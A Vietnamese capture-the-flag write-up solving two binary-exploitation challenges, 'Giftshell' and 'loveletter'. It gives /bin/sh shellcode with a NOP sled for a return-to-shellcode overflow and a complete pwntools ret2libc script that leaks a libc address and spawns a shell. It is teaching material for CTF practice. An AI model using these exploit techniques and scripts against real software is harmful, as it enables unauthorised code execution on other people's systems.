  
 
 
### 1. Giftshell
**Tóm tắt đề :**

1 file giftshell để chạy trên linux 

**Ý tưởng:**

- Đầu tiên mình sài IDA để decompile

![](https://i.imgur.com/TBsp4PM.png)

- Nhận thấy có lỗi buffer overflow do biến `buf` khai báo có 112 byte mà nhập tới 128 byte, cùng với việc đề leak địa chỉ biến `buf` ra ở `printf` thì khá chắc chắn là lỗi return to shellcode
- Vậy ta sẽ sử dụng địa chỉ biến `buf` bị leak để ret về đó, từ địa chỉ biến buf trở về sau chính là shell code của ta.
- Do mình lười nên lên mạng chép mã assembly để lấy shell, ở đây mình lên dreamhack để lấy.



    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp  ;
    xor rsi, rsi  ;
    xor rdx, rdx  ; 
    mov rax, 0x3b ;
     syscall ;
    
- Phần padding còn lại mình fill bằng byte `\x90` tức là `nop` trong assembly x86.
- Kế tiếp ta vào gdb để tìm offset cho ret. Ở đây ta được 120. 

![](https://i.imgur.com/9KcRPR0.png)

- Tiếp theo ta tìm số bytes của shellcode. Chạy script dưới ta được số byte là 29.

![](https://i.imgur.com/NPr8ND5.png)

- Do đó thứ tự payload sẽ là 29 byte shellcode, 91 byte nop và cuối cùng là 8 byte địa chỉ để ret vào. Vậy giờ ta sẽ viết script để viết ý tưởng trên. 

![](https://i.imgur.com/zFMHWrS.png)

- Chạy script trên ta đã lấy được shell.

### 2. loveletter
**Tóm tắt đề :**
- 1 file source 
- 1 file dockerfile
- 1 file docker-compose 

**Ý tưởng :**
- Đầu tiên mình decompile bằng IDA.

![](https://i.imgur.com/zflRfBI.png)

- Ta thấy control flow của chương trình như sau : chạy hàm loveletter -> yêu cầu nhập -> chạy hàm doubt -> nếu chọn Y thì sẽ set buffer cho biến `v1`, còn không thì chưa rõ do không khai báo.
- Tới đây ta cần phân tích rõ thứ tự các biến trong stack để coi có ghi đè được biến `v1` không vì khi đó ta sẽ tuỳ ý chọn số byte để nhập.
- Ta nhận thấy biến `v1` của hàm `loveletter` tức là mảng `buff[MAX_BUFFER + 69]` trong source và biến v1 của hàm `doubt` gần nhau. Ta có phân tích như sau:

![](https://i.imgur.com/xxLXtTB.png)

- Khi ta nhập full byte của biến `buf` trong hàm `loveletter` rồi chuyển qua hàm `doubt`, do biến `v1` không khai báo nên sẽ nhận giá trị ở vị trí `rsp+0xC` (stack không clear sau khi thực hiện xong hàm). Ta sẽ lợi dụng điều này để lấy shell.
- Do EX đã tắt và đây là file ELF 64 bit nên ta sẽ làm theo dạng return2libc 64bit

![](https://i.imgur.com/DUobQxU.png)

- Do đây là dạng cơ bản nên ta chỉ cần tìm gadget của từng phần viết script.

![](https://i.imgur.com/4ZQeiY2.png)

- Kết hợp tất cả thông tin rồi ta sẽ viết được script này

```python
    from pwn import *
    
    context.binary = exe = ELF('./main', checksec=False)
    libc = ELF('libc.so.6', checksec=False)
    p = process(exe.path) 
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    
    p.recvuntil(b'?\n')
    p.sendafter(b'> ', b'Y')
    payload = b'A'*264
    pop_rdi = 0x00000000004014b3
    payload += p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts'])
    payload += p64(exe.sym['main'])
    
    p.recvuntil(b'w.\n')
    p.sendafter(b'> ', payload)
    p.recvuntil(b'!\n')
    libc_leak = u64(p.recv(6) + b'\x00\x00')
    libc.address = libc_leak - libc.sym['puts']
    
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    p.recvuntil(b'letter?\n')
    p.sendafter(b'> ', b'Y')
    
    ret = 0x000000000040101a
    payload = b'A'*264 + p64(ret)
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    p.recvuntil(b'now.\n')
    p.sendafter(b'> ', payload)
    p.interactive()
```
- Chạy thử và ta sẽ có được shell.
